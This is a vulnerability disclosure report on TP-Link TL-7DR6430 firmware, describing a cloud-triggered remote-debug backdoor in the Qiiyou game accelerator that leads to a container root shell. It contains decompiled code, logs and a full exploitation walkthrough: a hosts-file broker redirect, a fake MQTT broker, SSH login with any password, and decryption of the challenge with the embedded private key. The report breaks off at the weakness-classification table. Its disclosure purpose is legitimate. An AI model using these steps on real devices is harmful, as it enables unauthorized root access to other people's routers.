










Submittion Date: 2026.6.27

Vendor: TP-Link TL-7DR6430

Version: V1.0_1.0.17

Firmware: TL_7DR6430_V1.0_1.0.17_Build_20250919_Rel.56588.bin

Download Link: https://resource.tp-link.com.cn/m/productClass/product_document?id=1759992600856491


The firmware bundles a cloud-controlled remote debugging backdoor in the Qiiyou game accelerator component (`qy_acc`). The affected binary is located at `/opt/game_acc/qiyou/app/bin/qy/bin/qy_acc` and runs inside the `game_accelerator` plugin container/network namespace. A network attacker who can impersonate or man-in-the-middle the Qiiyou MQTT broker can publish an `rdbg` control message that starts an embedded SSH debug service on `0.0.0.0:60022` inside the plugin namespace.

The SSH debug service accepts arbitrary password authentication. After SSH login, the service runs `qy_acc mesg rdbg rlg`, which prints an RSA-encrypted challenge. This second-stage challenge is also bypassable because the matching RSA private key is embedded in the same `qy_acc` firmware image. Decrypting the challenge and returning the recovered MD5 string reaches `execlp("/bin/sh", "sh", 0)`, resulting in a root shell inside the `game_accelerator` container.

This report is precise about the current proven impact: the end-to-end chain yields root shell in the Qiiyou/game accelerator container (`192.168.1.100` in the test environment), not yet proven root shell on the router host namespace (`192.168.1.1`). The container is managed by TP-Link's `lxcctl`/`crun` plugin runtime and is bridged onto `br-lan` through a dedicated network namespace.

## Affected Components

The relevant firmware components are:

| Path                                          | Role                                                       | Evidence                                                     |
| --------------------------------------------- | ---------------------------------------------------------- | ------------------------------------------------------------ |
| `/opt/game_acc/qiyou/app/bin/qy/bin/qy_acc`   | Qiiyou accelerator daemon; MQTT client and rdbg dispatcher | AArch64 musl PIE executable, `507980` bytes, SHA256 `03b198c4057b16fa2f252e0cab1e6c205aca342ada8af576b75073025f58b770` |
| `/opt/game_acc/qiyou/app/bin/qy/lib/libqy.so` | Shared library implementing SSH/MQTT/helper primitives     | AArch64 musl shared object, `4926819` bytes, SHA256 `7e4e180de37b8361d3b2aee810b17d7c00069349e89cea3e02b7bafa254049c8` |
| `/usr/bin/lxcctl/lxcctl`                      | TP-Link plugin container controller                        | Static Go AArch64 executable, SHA256 `cd352552417102a39c6c4e79d40bb1de9a7e4e3b542ff50e66f38e2a3ded305e` |
| `/usr/bin/crun`                               | OCI runtime used by the plugin container stack             | AArch64 executable, SHA256 `4f46e2c0bebea42370428e222ca8b73a6aaa33af91fb4cefdb30d64209d7f51a` |

The reported vulnerable flow is:

```text
[1] MQTT broker impersonation / MITM
    qy_acc connects to the Qiiyou MQTT broker name
    lab DNS override: ljbmq.qiyou.cn / mqtt-test.qiyou.cn -> attacker broker
        |
        v
[2] SOURCE - attacker-controlled MQTT message
    topic: qy_mqtt/ljb/broadcast/backend/rdbg/set
    payload: {"oper":1}
        |
        v
[3] qy_acc MQTT dispatcher
    sub_4002C / qy_on_msg strips the qy_mqtt prefix
    sub_45BC4 / qy_mqtt_mesg_deal dispatches the message
    sub_45AFC route lookup matches route table entry 0x8b860:
        "backend/rdbg/set" -> mqtt_call_sysconf_rdbg
        |
        v
[4] mqtt_call_sysconf_rdbg                 (qy_acc @0x3a9b8)
    parses JSON "oper"
    oper == 1 -> n_call("%s start &", "qy_acc mesg rdbg")
        |
        v
[5] rdbg command dispatcher                (qy_acc @0x24c30)
    qy_acc mesg rdbg start
      -> sub_22C6C(..., 1)
      -> sub_21D14(...) starts embedded SSH server
        |
        v
[6] Embedded SSH service                   (qy_acc/libqy)
    listens on 0.0.0.0:60022 inside game_accelerator netns
    password callback sub_E7A9C ignores user/password and returns success
        |
        v
[7] rlg second-stage challenge             (qy_acc @0x24c30)
    SSH shell command = qy_acc mesg rdbg rlg
    device prints SID/ENC challenge
    ENC = base64(RSA_public_encrypt(MD5(rand), unk_85D48))
        |
        v
[8] Firmware-extracted rlg private key     (qy_acc @0x3ea94)
    sub_3EA94 decodes private key from unk_88230
    private key matches the public key used by sub_22044
    attacker decrypts ENC and returns MD5(rand)
        |
        v
[9] ROOT SHELL in container
    strncmp(input, expected_md5, strlen(expected_md5)) == 0
    -> execlp("/bin/sh", "sh", 0)
    -> root@game_accelerator:/tmp#
```

## Broker Impersonation / MQTT Trigger

The dynamic validation used a lab DNS override to make the plugin rootfs resolve the Qiiyou MQTT broker domains to the attacker's MQTT broker:

```sh
ROOT=/tmp/run/tpplugin/game_acc/qiyou/rootfs
echo '192.168.1.101 ljbmq.qiyou.cn mqtt-test.qiyou.cn' >> $ROOT/etc/hosts
/usr/bin/lxcctl/lxcctl plugin restart qiyou
```

This host-file modification is only a lab shortcut. In a real attack scenario, the equivalent primitive is LAN DNS/ARP MITM or upstream DNS control.

The test broker used the firmware-extracted LJB TLS certificate/private key:

```powershell
python qy_mqtt_rdbg_broker.py --ports 8883,443 --cert ./mqtt/LJB_cert.pem --key ./mqtt/LJB_pkey.pem --delay 2
```

The dynamic broker log showed the real device connecting, subscribing, receiving the injected `rdbg` trigger, and reporting that `rdbg` was enabled:



```text
[+] client 192.168.1.100:37782 connected
[MQTT] CONNECT level=5 client_id='LJB-QYPLUG_TL_RTV1-F8CE215431BA-01007C81C368F8CE215431BA'
[MQTT] SUBSCRIBE id=1 flags=0x2 topics=['qy_mqtt/ljb/broadcast/#']
[!] publishing rdbg trigger topic='qy_mqtt/ljb/broadcast/backend/rdbg/set' payload='{"oper":1}'
[MQTT] SUBSCRIBE id=2 flags=0x2 topics=['qy_mqtt/ljb/QYPLUG_TL_RTV1/#']
[MQTT] SUBSCRIBE id=3 flags=0x2 topics=['qy_mqtt/ljb/F8CE215431BA/01007C81C368F8CE215431BA/#']
[MQTT] PUBLISH topic='qy_mqtt/ljbapp/F8CE215431BA/01007C81C368F8CE215431BA/backend/rdbg' payload=b'{ "oper": 1, "msgseq": "1782464114990" }'
[MQTT] PUBLISH topic='qy_mqtt/ljbapp/F8CE215431BA/01007C81C368F8CE215431BA/backend/rdbg' payload=b'{ "oper": 1, "tel_id": "", "ssh_id": "...", "msgseq": "1782464116007" }'
```

A self-signed MQTT TLS server was rejected with `TLSV1_ALERT_UNKNOWN_CA`, so the precise TLS issue is not "accepts arbitrary self-signed certificates." The confirmed bypass is that the firmware contains LJB TLS material that can be extracted and used by a malicious broker, while `mosquitto_tls_insecure_set(true)` weakens server identity checking.

## Source-To-Sink: MQTT Route To rdbg Start

The MQTT route table contains an entry for the `backend/rdbg/set` control topic:

```text
route entry 0x8b860:
    "backend/rdbg/set" -> mqtt_call_sysconf_rdbg
```

`mqtt_call_sysconf_rdbg` parses the JSON `"oper"` field. When `oper` is `1`, it invokes the local command runner:



```c
// qy_acc:mqtt_call_sysconf_rdbg @ 0x3a9b8
if (oper == 1)
    n_call("%s start &", "qy_acc mesg rdbg");
```

The resulting command reaches the rdbg command dispatcher:

```text
qy_acc mesg rdbg start
    -> sub_24C30
    -> sub_22C6C(..., 1)
    -> sub_21D14(...)    // SSH debug server
```



`sub_22C6C(..., 1)` starts the full debug stack:

```c
sub_21D14(a1 + 176, 1);   // embedded SSH server
sub_22230(a1 + 1088, 1);  // SSH forward helper
sub_21BAC(a1 + 1656, 1);  // telnetd login helper
sub_22230(a1 + 1824, 1);  // second forward/helper instance
sub_229F4(a1);            // reports tel_id / ssh_id
```

## Embedded SSH Service

`sub_21D14` starts an embedded libssh-based server and configures the login command to run the `rlg` path:

```c
// qy_acc:sub_21D14 @ 0x21d14
snprintf(a1 + 304, 0x40, "%s", "/bin/sh" or "/bin/bash");
strcpy(a1 + 496, "qy_acc");
argv = {"qy_acc", "mesg", "rdbg", "rlg", 0};
strcpy(a1 + 724, "ssh-rsa,ssh-dss");
n_ssh_srv_init(a1 + 112);
n_ssh_srv_loop();
```

After the MQTT trigger, the service listens in the `game_accelerator` network namespace:



```text
ip netns exec game_accelerator netstat -ltnp | grep 60022
tcp 0 0 0.0.0.0:60022 0.0.0.0:* LISTEN 2725/qy_acc
```

The SSH banner is externally reachable from the LAN through the container IP:



```text
nc 192.168.1.100 60022
SSH-2.0-libssh_0.10.5
```

The SSH host key fingerprint observed dynamically matches the firmware-extracted RSA host key:

```text
Server host key: ssh-rsa SHA256:cZ+qRHEUb08GUh8wWkKT9johKGKfvvsuYh3UeVZAfhU
```

## Authentication Bypass In The SSH Password Callback

The SSH authentication callbacks are implemented in `libqy.so`. The accept path registers both password and public-key authentication:

```c
// libqy.so:n_ssh_srv_accept @ 0xe8350
callback_table[9] = sub_E7D7C;  // public key auth callback
callback_table[6] = sub_E7A9C;  // password auth callback
ssh_set_auth_methods(session, 6); // SSH_AUTH_METHOD_PUBLICKEY | SSH_AUTH_METHOD_PASSWORD
ssh_set_server_callbacks(session, callback_table);
```

The password callback does not check the username or password at all:

```c
// libqy.so:sub_E7A9C @ 0xe7a9c
__int64 sub_E7A9C(session, user, password, userdata)
{
    *(uint64_t *)(userdata + 124) = 0x200000001;
    return 0;
}
```



This matches the OpenSSH dynamic evidence. Public-key authentication was disabled on the client side, but password authentication still succeeded:

```text
debug1: Authentications that can continue: publickey,password
debug1: Next authentication method: password
Authenticated to 192.168.1.100 ([192.168.1.100]:60022) using "password".
debug2: PTY allocation request accepted on channel 0
debug2: shell request accepted on channel 0
```

## rlg Challenge Bypass

After SSH authentication, the configured shell command runs:

```text
qy_acc mesg rdbg rlg
```

The `rlg` branch generates a random string, computes its MD5, encrypts the MD5 with an embedded RSA public key, prints it as `ENC`, then waits for the plaintext MD5 response:

```c
// qy_acc:sub_24C30, rlg branch
n_rand_str(0, 128);
n_buff_md5str(random, 128, challenge_md5);
sub_22044(challenge_md5, strlen(challenge_md5), encrypted, 4096);
puts("ENC------");
puts(encrypted);
fgets(input, 127, stdin);

if (strncmp(input, challenge_md5, strlen(challenge_md5)) == 0)
    execlp("/bin/sh", "sh", 0);
```

`sub_22044` decodes the RSA public key from `unk_85D48` and uses it to encrypt the expected response:

```c
// qy_acc:sub_22044 @ 0x22044
n_memdup(&unk_85D48, dword_85F18, ...);
n_carr_dec(..., &unk_85F1C);
n_rsa_public_enc(challenge_md5, strlen(challenge_md5), encrypted, 2048, decoded_public_key, key_len);
n_base64_enc(encrypted, rsa_len, output, 2048);
```



The firmware also contains the matching private key. `sub_3EA94` decodes `unk_88230` and calls `n_rsa_private_dec`:

```c
// qy_acc:sub_3EA94 @ 0x3ea94
n_base64_dec(input, strlen(input), decoded_ciphertext, 2048);
n_memdup(&unk_88230, dword_888C0, ...);
n_carr_dec(..., &unk_888C4);
n_rsa_private_dec(decoded_ciphertext, decoded_len, plaintext, 2047, decoded_private_key, key_len);
```



Extracted key evidence:

| Item               |                                    Address / file | Evidence                                                     |
| ------------------ | ------------------------------------------------: | ------------------------------------------------------------ |
| rlg public key     |  `unk_85D48`, `dword_85F18=464`, seed `unk_85F1C` | `./s030_ssh_material/rlg_challenge_rsa_public.pem`           |
| rlg private key    | `unk_88230`, `dword_888C0=1680`, seed `unk_888C4` | `.s030_ssh_material/rlg_challenge_rsa_private.pem`           |
| public DER SHA256  |                                         both keys | `8a9e3700f2a140f008f77f4c289b7c45f294505fced8153aa2ceac537518196d` |
| RSA modulus SHA256 |                                         both keys | `9a7a273ddbec71d19d501c4a930818e254aa93a5644d9fc45f635eba0844bd41` |

Both key blobs are obfuscated with the same `n_carr_dec` wrapper used for other `qy_acc` embedded material. The wrapper derives an AES-128-CBC key from a per-blob 16-byte seed and hardcoded constants, then uses the derived key as the CBC IV. All required seeds and constants are present in the firmware image, so the public and private keys are recoverable offline from the read-only squashfs.

The matching private key was validated with OpenSSL:

```text
Key is valid
8a9e3700f2a140f008f77f4c289b7c45f294505fced8153aa2ceac537518196d  -
8a9e3700f2a140f008f77f4c289b7c45f294505fced8153aa2ceac537518196d  -
```

A captured challenge was solved offline:



```text
SID------
41666
ENC------
w1PaZktCV+iUhcF6Uv439euZBD0tWQ0KKyTinZMFA5V0i2XsvqraOn74egk9PtsRtrece2wW4WBPFWFn3mm/e+jx4xY2NOQU6sWQ5YYClKMnZwna4GP2yKJ6qHJHFuX3VGk5oUcuvR0EYReGQN05dy4r8g0InpBnfye0LBPVEJWQzGWeVqLBWIjb7Pfk/EwelmePrNEai69IIQBJ+nhbCjHDgcGQsXuF4PDZmePIn4pwJEY2xH8/QUhlznSG78wTBQp+sVmZ3Rju4LPpHAHquD7FuGVYzvvMTEvKW9W1aOQLHN8VfoxoOWZOzSeVwGtN1qK8fNw7gfSBUWW4e6JJhg==
END------
C4B9B762CC98BB7EB814C4EEFFD34CAF
root@game_accelerator:/tmp#
```

This proves that the second-stage `rlg` challenge is not an effective security boundary.

## Container Runtime Context

The obtained shell is inside the game accelerator container, not directly in the router host namespace:



```text
root@game_accelerator:/tmp#
hostname
game_accelerator
```

The container environment is not Docker. TP-Link ships a custom container control tool and an OCI runtime:

```text
/usr/bin/lxcctl/lxcctl  - TP-LINK linux container control tool
/usr/bin/crun           - OCI runtime
/opt/game_acc/rootfs    - Alpine 3.16.8 base rootfs
/opt/cni/bin/cni-game_accel
```

The CNI script creates the network namespace and bridges it onto `br-lan`:

```sh
cni_netns="game_accelerator"
host_if_name="veth-game_acc"
host_bridge="br-lan"

ip netns add $cni_netns
ip link add tmp type veth peer name veth-game_acc
ip link set veth-game_acc master br-lan
ip link set tmp netns game_accelerator
ip netns exec game_accelerator ip link set tmp name eth0
ip netns exec game_accelerator ip link set eth0 up
```

This explains why the debug SSH service is reachable at `192.168.1.100:60022` in the lab, while it does not appear as a listener on the router host IP `192.168.1.1`.

## Verification Boundaries

The following details were checked to avoid over-claiming the issue:

| Claim                                          | Status     | Notes                                                        |
| ---------------------------------------------- | ---------- | ------------------------------------------------------------ |
| Web UI / DS authentication required            | No         | The proven entry point is the Qiiyou MQTT backend channel, not `/stok=.../ds`. |
| Arbitrary self-signed MQTT certificate works   | No         | A generated self-signed test broker was rejected with `TLSV1_ALERT_UNKNOWN_CA`. |
| Broker host is `ctrliot.qiyou.cn`              | No         | The MQTT broker path dynamically used `ljbmq.qiyou.cn` / `mqtt-test.qiyou.cn`; `ctrliot.qiyou.cn` appears in a separate HTTP callback URL. |
| Trigger payload is `{"oper":"up"}`             | No         | The dynamically verified rdbg start payload is `{"oper":1}`. |
| SSH listens on router host `192.168.1.1:60022` | No         | It listens inside `game_accelerator` and was reachable at `192.168.1.100:60022` in the lab. |
| Shell is router host namespace root            | Not proven | The proven shell is `root@game_accelerator`, i.e. container/network-namespace root. |
| `rlg` private key matches challenge public key | Yes        | Public DER SHA256 and RSA modulus SHA256 both match; captured `ENC` was decrypted to the accepted MD5 response. |

## Exploitation Steps

The exploit requires the attacker to make `qy_acc` connect to an attacker-controlled MQTT broker for the Qiiyou broker hostname. In the lab this was done by modifying the plugin rootfs hosts file from an existing router shell:

```sh
ROOT=/tmp/run/tpplugin/game_acc/qiyou/rootfs
echo '192.168.1.101 ljbmq.qiyou.cn mqtt-test.qiyou.cn' >> $ROOT/etc/hosts
/usr/bin/lxcctl/lxcctl plugin restart qiyou
```

Then start the fake broker with firmware-extracted LJB TLS material:

```powershell
python qy_mqtt_rdbg_broker.py --ports 8883,443 --cert ./mqtt/LJB_cert.pem --key ./mqtt/LJB_pkey.pem --delay 2
```

After the broker injects `{"oper":1}`, confirm that SSH is listening:

```sh
ip netns exec game_accelerator netstat -ltnp | grep 60022
```

Connect to the embedded SSH service:

```sh
ssh -tt -p 60022 \
  -oHostKeyAlgorithms=+ssh-rsa,ssh-dss \
  -oPubkeyAcceptedAlgorithms=+ssh-rsa,ssh-dss \
  -oPreferredAuthentications=password \
  -oPubkeyAuthentication=no \
  -oNumberOfPasswordPrompts=1 \
  root@192.168.1.100
```

Enter any password. The server prints `SID` and `ENC`. Decrypt the `ENC` value with the firmware-extracted `rlg` private key:

```sh
python3 scripts/qy_rlg_response.py \
  --private artifacts/s030_ssh_material/rlg_challenge_rsa_private.pem \
  --enc '<base64 text between ENC------ and END------>'
```

Paste the returned 32-byte hex MD5 string back into the SSH session. The shell prompt becomes:

```text
root@game_accelerator:/tmp#
```

## Root Cause

The vulnerability is a chain of insecure remote debugging design decisions:

| Layer                 | Issue                                                        |
| --------------------- | ------------------------------------------------------------ |
| MQTT control plane    | Device accepts backend `rdbg` commands from the broker channel |
| TLS / broker identity | Firmware-extracted LJB TLS material can impersonate the broker in a MITM setup; server identity checking is weakened |
| rdbg dispatcher       | `{"oper":1}` starts hidden debug services without local user confirmation |
| SSH service           | Embedded SSH service listens on `0.0.0.0:60022` inside the bridged plugin network namespace |
| SSH authentication    | Password callback ignores the provided password and returns success |
| rlg challenge         | Matching RSA private key is embedded in the same firmware image |
| Shell                 | Correct `rlg` response reaches `execlp("/bin/sh", "sh", 0)`  |

## Suggested Weakness Classification

The issue is a compound vulnerability rather than a single unsafe function call. The most relevant weakness classes are:

| CWE                                                   | Relevance                                                    |
